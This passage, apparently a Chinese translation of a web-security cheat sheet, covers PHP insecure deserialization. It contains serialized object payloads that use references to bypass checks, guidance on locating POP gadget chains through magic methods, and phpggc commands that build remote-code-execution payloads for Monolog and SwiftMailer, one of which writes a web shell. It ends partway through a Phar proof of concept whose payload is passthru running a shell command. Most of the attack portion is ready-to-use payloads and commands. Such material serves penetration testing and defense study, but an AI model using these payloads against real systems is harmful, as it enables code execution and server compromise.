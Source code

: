 有效载荷：

```php
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

我们可以像这样做一个数组：

```php
a:2:{s:10:"admin_hash";N;s:4:"hmac";R:2;}
```

## 查找和使用 gadgets

也称为“PHP POP链”，它们可以用来在系统上获得远程代码执行（RCE）。

* 在PHP源代码中，寻找`unserialize()`函数。
* 有趣的[魔术方法](https://www.php.net/manual/en/language.oop5.magic.php)，如`__construct()`、`__destruct()`、`__call()`、`__callStatic()`、`__get()`、`__set()`、`__isset()`、`__unset()`、`__sleep()`、`__wakeup()`、`__serialize()`、`__unserialize()`、`__toString()`、`__invoke()`、`__set_state()`、`__clone()`和`__debugInfo()`：
  * `__construct()`：PHP类构造函数，在对象创建时会自动调用
  * `__destruct()`：PHP类析构函数，当对象的引用从内存中移除时会自动调用
  * `__toString()`：PHP回调，如果对象被视为字符串时执行
  * `__wakeup()` PHP回调，在反序列化时执行

[ambionics/phpggc](https://github.com/ambionics/phpggc)是一个基于多个框架生成有效载荷的工具：

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
phpggc monolog/rce1 assert 'phpinfo()'
phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
```

## Phar反序列化

使用`phar://`包装器，可以在指定文件上触发反序列化，例如在`file_get_contents("phar://./archives/app.phar")`中。

一个有效的PHAR包括四个元素：

1. **存根**：存根是一段PHP代码，当文件在可执行上下文中被访问时执行。存根至少必须在其结尾包含`__HALT_COMPILER();`。否则，对Phar存根的内容没有限制。
2. **清单**：包含有关存档及其内容的元数据。
3. **文件内容**：包含存档中的实际文件。
4. **签名**（可选）：用于验证存档完整性。

* 利用自定义`PDFGenerator`创建Phar的示例。

```php
<?php
class PDFGenerator { }

//创建Dummy类的新实例并修改其属性
$dummy = new PDFGenerator();
$dummy->callback = "passthru";
$dummy->fileName = "uname -a > pwned"; //我们的有效载荷

//删除任何现有的同名PHAR存档
@unlink("poc.phar");

//创建新存档
```